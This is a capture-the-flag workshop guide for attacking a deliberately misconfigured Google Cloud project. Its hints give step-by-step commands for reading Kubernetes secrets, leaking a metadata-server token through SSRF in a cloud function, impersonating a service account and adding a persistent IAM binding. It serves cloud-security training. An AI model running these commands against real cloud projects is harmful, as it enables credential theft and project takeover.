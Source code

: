 # CTF Guide

## Your Goal

Your goal of this CTF is to exploit a vulnerable GCP project and find up to 5 flags.
During the challenge you will be able to move through the environment and step by step escalate your privileges until you manage the IAM bindings on the project, esentially allowing you to gain control of all resources in the project.
(In our CTF workshop setup, we have to keep you in check a bit and you will only be able to manage specific IAM bindings.)

## Prerequisites

To play this CTF and participate in our workshop you will need:
- A notebook and an internet connection
- A Google account. Any Google account such as `your-throwaway@gmail.com ` is enough. It does not have to be a Google Cloud account. 
- The [gcloud](https://cloud.google.com/sdk/docs/install) command line utility installed on your computer.
- The kubectl utility installed on your computer. You can install it as a component of gcloud: `gcloud components install kubectl`

## Your starting point

The cloud services in the project might be misconfigured or leak information that can be useful for you as attacker.
You'll start out with just an IP address as your first piece of information.

We are providing you with useful hints and commands for each challenge.
Don't hesitate to use them, as you will have limited time for this CTF during our workshop.

## Challenges

### Challenge 1: Cluster confidentials

You received just an IP address as your very first entrypoint into the GCP project.  
Which ports are open? Is something listening here?  
Does it give you an idea what kind of infrastructure it is?

To simplify your next commands, set the IP address as an environment variable: `export IP=<IP>`

<details>
  <summary>Hint 1</summary>

    You found a GKE (Google Kubernetes Engine) cluster.  
    As you are not authenticated, you are part of the group `system:anonymous` and you can't access much.  
    What if you were in `system:authenticated`?  

</details>
  

<details>
  <summary>Hint 2</summary>
    
    `system:authenticated` sounds like strict access control - but is it?  
    All you need to do is authenticate - with pretty much any Google account.  
    What if you can get a token for your own Google account and provide that to the API?  
    Are there any endpoints you can access now?  
    
</details>
  

<details>
  <summary>Hint 3</summary>

    `system:authenticated` will require you to present a Google access token.  
    It can be any token - also for your own Google account that is not associated with our target GCP project.  
    You can use the [oauth playground](https://developers.google.com/oauthplayground/) to get an access token.  
    Select "Kubernetes Engine API v1" as a scope and exchange your authorization code for an access token.  
    To simplify the following commands, set your token in an environment variable: `export TOKEN=<your token>`  
    Present it to the GKE API:  
    `curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api`  
    That's a more promising response than `403 Forbidden1`!  
    Maybe you can find out, which permissions you have on the cluster as part of the `system:authenticated` group.  

</details>
  

<details>
  <summary>Hint 4</summary>

    It would be nice to know what you can access on the cluster.  
    Luckily, there is an endpoint for that too and you are allowed to query it:  
    `curl -k -X POST -H "Content-Type: application/json" -d '{"apiVersion":"authorization.k8s.io/v1", "kind":"SelfSubjectRulesReview", "spec":{"namespace":"default"}}' -H "Authorization:Bearer $TOKEN" https://$IP/apis/authorization.k8s.io/v1/selfsubjectrulesreviews`  
    It looks like you have read access to some resources on the default namespace of the cluster. Start enumerating some that might be interesting.  

</details>
  

<details>
  <summary>Hint 5</summary>

    You can read all resources in the `file-uploader` namespace on the cluster. Which secrets might it hold?  
    `curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/secrets`  
    The secret values are base64 encoded. Decode them to read the value:  
    `echo -n <secret-value> | base64 -d  

</details>
  

Useful commands and tools:

- `nmap -sC -sV <IP>` (don't worry if you don't have nmap installed. Guessing common open ports also works here)
- `curl -k https://<IP>`
- `curl -k -H "Authorization:Bearer <token>" https://<IP>/api/v1/...`
- [Google OAuth Playground](https://developers.google.com/oauthplayground/)

### Challenge 2: State of affairs

You found credentials for a GCP service account.
The json blob already provides some useful information. It contains the GCP project ID, the e-mail of the service account (client_e-mail) and the private key of the account.  

Save the json blob in a file. You can now also use it as a credential for the gcloud CLI:  
`gcloud auth activate-service-account --key-file <path-to-file>`  
You can check that this worked when running `gcloud auth list`. It now shows the service account as active account.  

So what can you do with this account? Did you find any hints during challenge 1?

<details>
  <summary>Hint 1</summary>

    In the configmap and deployment of the app ond the GKE cluster, you can find the name of a storage bucket.  
    Probably the service account you found belongs to this app and it can access the storage bucket.  

</details>

<details>
  <summary>Hint 2</summary>

    The file uploader app running on the GKE cluster can access a storage bucket called "file-uploads-<gcp-project-id>.  
    While the service account can't list all storage buckets, it might still have access to this specific bucket.  

</details>

<details>
  <summary>Hint 3</summary>

    See what you can find on the bucket by using the `gsutil` command line utility.  
    `gsutil ls gs://<bucket-name>`
    While the service account can't list all storage buckets, it might still have access to this specific bucket.  

</details>

Useful commands and tools:

- gsutil (already installed with gcloud): gsutil ls gs://<...>

### Challenge 3: Computing power

The file on the storage bucket is pretty useful for you as attacker.  
That seems to be the leftovers of a terraform pipeline that someone set up for this GCP project.  
They deployed parts of the infrastructure with terraform and you can trace back what the developers did in the terraform state file.

Would that help you to move on into other infrastructure deployed here?

<details>
  <summary>Hint 1</summary>

    The state file contains the parameters that were used to setup a Google Compute Engine VM.  
    But additionally, it contains a secret ...  
    Can you combine this information to access the VM?

</details>

<details>
  <summary>Hint 2</summary>

    The state file contains the parameters that were used to setup a Google Compute Engine VM.  
    But additionally, it contains a secret ...  
    Can you combine this information to access the VM?

</details>

<details>
  <summary>Hint 3</summary>

    The state file conveniently contains the external IP address of a compute engine that was deployed with terraform.  
    But someone also created a Google Secret Manager secret with terraform and specified the secret value as well.  
    If you do that, you have to protect your state file as well, as it will contain the secret value in plain text.  
    Use the SSH key you find in the secret to SSH into the VM.  

</details>

Did you find the flag yet for this challenge?  

<details>
  <summary>Hint 1 - find the flag</summary>
    
    Flags are just metadata anyway ...
    Still, can you find it?

</details>

<details>
  <summary>Hint 2 - find the flag</summary>

    The GCP metadata server is a good endpoint to check when you gained access to a compute VM.  
    If you don't have the VM's access token yet, you could get it from the metadata server.  
    It also shows you startup scripts, ssh access information and any other custom data that someone might have stored as metadata for this VM.  
    `curl "http://metadata.google.internal/computeMetadata/v1/instance/" -H "Metadata-Flavor: Google"`  

</details>


### Challenge 4: Invoking answers

You can controll a compute instance in the project!  
Let's look around a bit to find out what this instance can do and which other services are running in this GCP project.  
Your compute instance is running as a GCP service account, allowing it to interact with the GCP APIs.  
Check which service account this instance uses and what this account can do.  

`gcloud auth list` shows you who you are.  
That account looks like the compute engine default service account! A very powerfull account in GCP.  
By default, it has the "Editor" role on a GCP project! But before getting too excited ... try using some of your new powers:  
`gcloud compute instances list`  

"Request had insufficient authentication scopes". Well, that's disappointing.  
You can list your oauth access scopes with this command:  
`curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$(gcloud auth print-access-token)`

That last access scope looks promising.

<details>
  <summary>Hint 1</summary>

    The access scopes of the compute engine allow you to read all storage buckets in the project.  
    `gcloud storage buckets list`  
    There is a second bucket that you couldn't access before.  
    Its content reveals another resource deployed in this project.  
    `gsutil ls gs://<bucket-name>` lets you list files on the bucket.  
    `gsutil cat gs://<bucket-name>` lets you read files on the bucket.  

</details>

<details>
  <summary>Hint 2</summary>

    A cloud function is running in the project. When deploying a cloud function in GCP, its source code gets uploaded onto a storage bucket. Have a look at the source code to see what this small function does.
    You can find additional hints on how to invoke the function on the compute engine VM.  

</details>

<details>
  <summary>Hint 3</summary>

    A cloud function is running in the project. When deploying a cloud function in GCP, its source code gets uploaded onto a storage bucket. Have a look at the source code to see what this small function does.
    You can find additional hints on how to invoke the function on the compute engine VM.  

</details>

<details>
  <summary>Hint 4</summary>

    Can you call the function from the VM? It responds with 403 Forbidden when you try it without credentials.  
    Maybe you can pass your VMs token as a credential as Authorization header? `curl -H "Authorization:Bearer <token>" https://...`  
    Your access token doesn't seem to work through. Is there another token type you could try?

</details>

<details>
  <summary>Hint 5</summary>

    Cloud functions use an identity token instead of an access token to check if the caller is allowed to invoke them.  
    You can get the identity token of the compute VM in the same way as you would do it for the access token:  
    `gcloud auth print-identity-token`  
    Now you can try calling the function:  
    `curl -H "Authorization:Bearer $(gcloud auth print-identity-token)" https://<function-endpoint>`  
    It seems to expect a URL and then it returns the response.  

</details>

<details>
  <summary>Hint 6</summary>

    Which endpoint could you have the cloud function call?  
    Similar to the compute engine, the cloud function also uses the Metadata server ...

</details>

<details>
  <summary>Hint 7</summary>

    You can pass the URL to the metadata server to the function and have it call it.  
    This way, you can make it leak its access token.  
    `curl -H "Authorization:Bearer $(gcloud auth print-identity-token)" -d '{"url": "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token"} -H "Metadata-Flavor: Google" https://<function-endpoint>`  

</details>

Useful commands and tools:  

- the compute engine also has gcloud installed
- `gcloud auth list`
- `gcloud auth print-access-token`
- `gcloud auth print-identity-token`
- [GCP oauth access scopes](https://developers.google.com/identity/protocols/oauth2/scopes#storage)
- `gsutil ls gs://<..>`
- `gsutil cat gs://<..>`
- `curl -H "Authorization:Bearer <token>" https://...`
- [Metadata server](https://cloud.google.com/functions/docs/securing/function-identity#access-tokens)

### Challenge 5: Admin Impersonation

You extracted a new access token! Let's see what this one can do.  
You can use the tokeninfo endpoint again to find out:  
`curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=<token>`  
Cloud functions by default are also using the compute engine default service account - but with the full `cloud-platform` access scope!  

That should get you a set of nice new permissions on this GCP project.  
You can tell gcloud to use your new token by setting it as environment variable:  
`export CLOUDSDK_AUTH_ACCESS_TOKEN=<token>`  

Now, let's try to list the IAM policy on this GCP project to see which project-level access your account has:  
`gcloud projects get-iam-policy <project-id>`

You are Editor on this project which allows you read and write access to almost all resources.  
Congratulations! You compromised this GCP project.  

**Bonus Challenge:**  
There is one last level of control you can achieve - gaining persistent access!  
Wouldn't it be nice if you could add your own Google account to this project?  
You can try to set an IAM binding on the project level. But while the compute account you compromised is powerful, it can't modify the IAM settings on the project.  
But maybe another service account can?  

Note: In this CTF challenge the only role you can grant your own Google account on the project level is "role/viewer".  

<details>
  <summary>Hint 1</summary>

    When listing the service accounts on the project, one sounds like a good target: The terraform pipeline project admin account.  
    Check if your compute service account can impersonate this account:
    `gcloud iam service-accounts get-iam-policy <terraform account>`  
    It does have the serviceAccountTokenCreator role, allowing service account impersonation!

</details>

<details>
  <summary>Hint 2</summary>

    By impersonation a service account, you can leverage the permissions that this account has.  
    When listing the IAM bindings on the project again, the terraform account has a role that sounds intriguing: Terraform Pipeline Project Admin.  
    This is a custom role the developers created for their terraform pipeline.  
    Let's see what permissions it contains:  
    `gcloud iam roles describe TerraformPipelineProjectAdmin --project <project-id>`  
    Perfect! The account that you can impersonate, can modify the IAM bindings on this GCP project.  

</details>

<details>
  <summary>Hint 3</summary>

    Add your own Google Account to the GCP project by running:  
    `gcloud projects add-iam-policy-binding <project-id> --member=user:<your Google account> --role=roles/viewer --impersonate-service-account <terraform pipeline account>`

</details>

When you completed the bonus challenge, you should be able to access this project in the cloud console in your browser.  
Log in with the Google account you just added.  

You finished the challenge and pwnd the vulnerable Google Cloud Project!

Useful commands and tools:


- list the IAM bindings on project level: `gcloud projects get-iam-policy <project-id>`
- list service accounts: `gcloud iam service-accounts list` 
- get IAM bindings showing who can control this service account: `gcloud iam service-accounts get-iam-policy <service account>`



Useful commands and tools:




